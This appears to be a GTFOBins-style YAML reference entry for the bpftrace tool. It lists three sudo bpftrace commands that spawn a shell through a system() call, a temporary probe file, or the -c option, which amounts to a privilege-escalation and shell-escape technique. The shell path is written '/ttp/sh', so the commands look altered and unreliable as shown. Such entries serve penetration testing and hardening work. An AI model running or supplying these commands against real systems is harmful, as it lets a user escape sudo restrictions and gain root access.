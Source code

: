 ```yaml
---
functions:
  sudo:
    - code: sudo bpftrace -e 'BEGIN {system("/ttp/sh");exit()}'
    - code: |
        TF=$(mktemp)
        echo 'BEGIN {system("/ttp/sh");exit()}' >$TF
        sudo bpftrace $TF
    - code: sudo bpftrace -c /ttp/sh -e 'END {exit()}'
---
```


